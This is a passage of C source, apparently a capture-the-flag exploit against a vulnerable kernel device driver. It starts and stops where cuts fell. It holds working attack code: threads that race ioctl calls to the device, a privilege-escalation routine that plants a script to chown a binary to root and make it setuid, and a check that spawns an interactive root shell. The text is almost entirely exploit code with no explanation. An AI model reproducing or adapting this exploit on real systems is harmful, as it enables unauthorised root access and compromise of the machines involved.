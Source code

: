 ```c=
    char *name;
    char *desc;
    char *logs;
}req_t;

// my stuff starts here

int fd;
int start_race = 0;
steamid_t compartments[MAX_COMPARTMENTS];

int dev_open(void)
{
    int new_fd = open(DEVICE_NAME, O_RDONLY);
    if (new_fd < 0) {
        fputs("Failed to open device!\n", stderr);
        exit(-1);
    }

    return new_fd;
}

void *race_routine(void *arg) {
    steamid_t engine_id = (steamid_t) (unsigned long) arg;
    req_t opts = {
        .id = engine_id,
        .desc = malloc(DESC_SZ),
    };
    memset(opts.desc, 'B', DESC_SZ);

    while (!start_race);
    steamid_t component_id = ioctl(fd, ADD_COMPARTMENT, &opts);
    printf("(thread) add_compartment: %08lx\n", component_id);

    return (void *)(long) component_id;
}

void do_privesc(void) {
    system("echo -e '\\xff\\xff\\xff\\xff' > /home/ctf/coolbin");
    system("echo -e '#!/bin/sh\\nchown root: /home/ctf/exploit\\nchmod 6777 /home/ctf/exploit' > /home/ctf/pogchamp");
    system("chmod +x /home/ctf/coolbin");
    system("chmod +x /home/ctf/pogchamp");
    system("/home/ctf/coolbin");
}

void check_privs(void) {
    if (geteuid() == 0) {
        setreuid(0, 0);
        setregid(0, 0);
        puts("[*] Obtained root!");
        system("/bin/sh -i");
        exit(0);
    }
}

int main(void)
{
    check_privs();
    int ret = -1;
    fd = dev_open();

    req_t opts = {
```